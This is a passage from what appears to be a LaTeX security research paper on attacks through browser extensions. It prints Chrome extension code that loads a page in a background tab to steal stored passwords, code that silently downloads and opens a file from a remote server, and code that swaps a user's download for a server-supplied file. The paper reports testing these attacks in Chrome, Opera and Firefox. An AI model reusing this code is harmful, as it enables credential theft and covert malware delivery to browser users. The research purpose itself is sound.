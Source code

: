 	\begin{code}
		\begin{lstlisting}
chrome.tabs.query({ currentWindow: false }, function(tabs) {	
	chrome.tabs.create({ url: TARGET_URL, windowId: tabs[0].windowId },	function(tab) {
		waitUntilTabHasFinishedLoading(function() {
			chrome.tabs.executeScript(tab.id, { file: 'content.js' });	
		});
	});
});
chrome.runtime.onMessage.addListener(function(message, sender) {
	chrome.tabs.remove(sender.tab.id);
});
\end{lstlisting}
		\caption{Extension code to open a new tab in a background window an load a particular web page to steal probably stored credentials.}
		\label{code:openPageInNewBackgroundTab}
	\end{code}
			
	We tested our implementations in Chrome, Opera, and Firefox. To our surprise, they were only successful in Firefox. The reason that none of our attacks work in Chrome and Opera is that JavaScript has no access to the value of a password input field before any user interaction with the web page occurred. What first seems like a bug is an intended security feature to prevent exactly this kind of attack \cite{chromiumBlogPasswordInput}.


\subsection{Manipulate Download Files}

	\begin{code}
		\begin{lstlisting}
var storedDownloadId = null;
chrome.downloads.setShelfEnabled(false);
chrome.downloads.download({	url: REMOTE_SERVER_URL,	method: 'GET' }, function(downloadId) {
	waitUntilDownloadHasFinished(function() {
		storedDownloadId = downloadId;
	});
});		
chrome.runtime.onMessage.addListener(function() {
	if(storedDownloadId != null) {
		chrome.downloads.open(downloadItem.id);		
		chrome.downloads.setShelfEnabled(true);
	}
});
\end{lstlisting}
		\caption{Extension code to download and open a file without the user noticing.}
		\label{code:downloadAndOpenFile}
	\end{code}
	
	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		chrome.downloads.cancel(downloadItem.id);
		chrome.downloads.erase({ id: downloadItem.id });
		chrome.downloads.download({
			url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + TARGETED_MIME_TYPE,
			method: 'GET',
		});
	}
});
\end{lstlisting}	
		\caption{Extension code to silently exchange a file that the user currently downloads with a file from our remote server.}	
		\label{code:exchangeDownloadFile}
	\end{code}
	
